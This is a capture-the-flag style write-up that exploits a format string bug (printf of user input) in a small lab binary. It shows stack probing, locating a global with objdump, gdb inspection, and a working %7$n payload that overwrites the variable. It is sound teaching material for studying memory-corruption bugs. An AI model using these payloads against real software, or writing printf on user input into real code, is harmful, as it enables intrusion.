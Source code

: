 Let's take a look at the source code...

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int unimportant_var0 = 0;
void not_important()
	{
	char buf0[100] = {0};
	read(STDIN_FILENO, buf0, sizeof(buf0) - 1);
	printf(buf0);

	if (unimportant_var0)
		{
			printf("Printf can do that? Oh right I enabled that. It claimed so many lives. Level Cleared\n");
		}
	}

int main()
{
	not_important();
}
```

We see that in order to pass the if then statement, we will need to change the value of the unimportant_var0 to something other than 0. We can see that there is a format string bug in the not_important function, which we can use to write to the unimportan_var0. We see that it uses printf to print the char array buf0, without formatting it correctly. We also see that it writes to buf0 using a read() function, so we get to write to that buffer. So we can control the buffer and execute the format string attack. The first thing we will need to do is figure out where our input is on the stack. We can see that the char array that is being written to is made close to the printf call, so it should be close.

```
$	./f1_64
0000.%1$x.%2$x.%3$x.%4$x
0000.ffffdde0.63.f7b04680.4006a0
```

So it's not in the first four stack locations. Let's keep on searching.

```
$	./f1_64 
0000.%5$x.%6$x.%7$x.%8$x
0000.f7de78e0.30303030.36252e78.2e782437
$	./f1_64 
0000.%6$x
0000.30303030
```

So we have found where our input is on the stack, which is 6 positions away from where we can start writing. Now we need to find the location of the unimportant_var0 interger. Since it is a global int, there should be a static address hard coded for it in the program's symbols, which we can see using object dump.

```
$	objdump -t f1_64 | grep unimportant_var0
000000000060104c g     O .bss	0000000000000004              unimportant_var0
```

So we can see that the address of the unimportant_var0 integer is 0x000000000060104c. Now we need to simply write the address to the buf0 char array, then use a format string exploit to write to that address. 

```
$	python -c 'print "\x4c\x10\x60\x00\x00\x00\x00\x00" + "%6$n"' | ./f1_64
L`%6$n
```

Well that didn't work. Keep in mind that when we found the location of our data on the stack, we were giving it only four characters. Now we are giving it the equivalent of 12 characters, so it is being stored in memory a bit different Let's use gdb to see how exactly the address is stored in memory. Firts let's create the payload.

```
$	python -c 'print "\x4c\x10\x60\x00\x00\x00\x00\x00" + "%6$n"' > payload
```

Now let's look at it in gdb.

```
$	gdb ./f1_64
```

Wall of text later

```
gdb-peda$ b *not_important+76
Breakpoint 1 at 0x400602
gdb-peda$ r < payload
Starting program: /Hackery/escape/fmt_str/f1_64/f1_64 < payload

 [----------------------------------registers-----------------------------------]
RAX: 0x3 
RBX: 0x0 
RCX: 0x3 
RDX: 0x7ffff7dd3780 --> 0x0 
RSI: 0x602010 --> 0x60104c --> 0x0 
RDI: 0x602013 --> 0x0 
RBP: 0x7fffffffde20 --> 0x7fffffffde30 --> 0x400630 (<__libc_csu_init>:	push   r15)
RSP: 0x7fffffffddb0 --> 0x60104c --> 0x0 
RIP: 0x400602 (<not_important+76>:	mov    eax,DWORD PTR [rip+0x200a44]        # 0x60104c <unimportant_var0>)
R8 : 0x602000 --> 0x0 
R9 : 0x3 
R10: 0x7ffff7dd1b78 --> 0x602410 --> 0x0 
R11: 0x0 
R12: 0x4004c0 (<_start>:	xor    ebp,ebp)
R13: 0x7fffffffdf10 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x4005f5 <not_important+63>:	mov    rdi,rax
   0x4005f8 <not_important+66>:	mov    eax,0x0
   0x4005fd <not_important+71>:	call   0x400480 <printf@plt>
=> 0x400602 <not_important+76>:	mov    eax,DWORD PTR [rip+0x200a44]        # 0x60104c <unimportant_var0>
   0x400608 <not_important+82>:	test   eax,eax
   0x40060a <not_important+84>:	je     0x400616 <not_important+96>
   0x40060c <not_important+86>:	mov    edi,0x4006b8
   0x400611 <not_important+91>:	call   0x400470 <puts@plt>
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffddb0 --> 0x60104c --> 0x0 
0008| 0x7fffffffddb8 --> 0xa6e243625 ('%6$n\n')
0016| 0x7fffffffddc0 --> 0x0 
0024| 0x7fffffffddc8 --> 0x0 
0032| 0x7fffffffddd0 --> 0x0 
0040| 0x7fffffffddd8 --> 0x0 
0048| 0x7fffffffdde0 --> 0x0 
0056| 0x7fffffffdde8 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x0000000000400602 in not_important ()
```

So we can see under the stack location, our data is stored between 0x7fffffffddb0 (6 stack locations away from where were printf is) and 0x7fffffffddb8 (7 stack locations away from where were printf is). Let's see exactly what it holds.

```
gdb-peda$ x/x 0x7fffffffddb0
0x7fffffffddb0:	0x000000000060104c
gdb-peda$ x/x 0x7fffffffddb8
0x7fffffffddb8:	0x0000000a6e243625
gdb-peda$ x/2x 0x7fffffffddb0
0x7fffffffddb0:	0x000000000060104c	0x0000000a6e243625
```

So we can see the buf0 address at 0x7fffffffddb0, and the string "%6$n" stored in little endian, in hex at 0x7fffffffddb8. Let's try and move the address of buf0 over to 0x7fffffffddb8. We will need to move the "%6$x" to the front of the string, and change it to "0000%7$x" to account for the new stack location, and needed filler.

```
$	python -c 'print "0000%7$n" + "\x4c\x10\x60\x00\x00\x00\x00\x00"' > payload_2
```

Now let's test it in gdb.

```
gdb-peda$ r < payload_2
```

One wall of text later...

```
Breakpoint 1, 0x0000000000400602 in not_important ()
gdb-peda$ x/2x 0x7fffffffddb0
0x7fffffffddb0:	0x6e24372530303030	0x000000000060104c
```

Here we can see the address of buf0 at 0x7fffffffddb8, and the string "0000%7$n" in hex in little endian at 0x7fffffffddb0. Everything looks good here, so let's proceed.

```
gdb-peda$ c
Continuing.
0000L`Printf can do that? Oh right I enabled that. It claimed so many lives. Level Cleared
[Inferior 1 (process 9335) exited normally]
Warning: not running or target is remote
gdb-peda$ q
```

So that worked, let's try it outside of gdb.

```
$	python -c 'print "0000%7$n" + "\x4c\x10\x60\x00\x00\x00\x00\x00"' | ./f1_64 
0000L`Printf can do that? Oh right I enabled that. It claimed so many lives. Level Cleared
```

Just like that, we pwned the binary! Now why do we have to format our attack that way? To answer that, we can view what's on the stack via the format string bug to get a better picture while using an exploit that is similar to our own in length.

```
$	./f1_64 
0000999901234567.%5$x.%6$x.%7$x.%8$x.%9$x
0000999901234567.f7de78e0.30303030.33323130.2435252e.252e7824
```

Notic that in the 6 slot, we can see the four the hex little endian representation of four zeroes, however in the 7 slot we see the hex representation of "0123" in little endian. It just so happens that the string "0123" is the third set of four characters in our exploit, which so happens to coincide with the address of buf0 in our working exploit. So as we can see, we had to format our exploit in that manner so the printf function would be able to see the address, and write to it properly. Keep this in mind when you are working with format string bugs, that formatting your exploit so printf can use it properly can be tricky.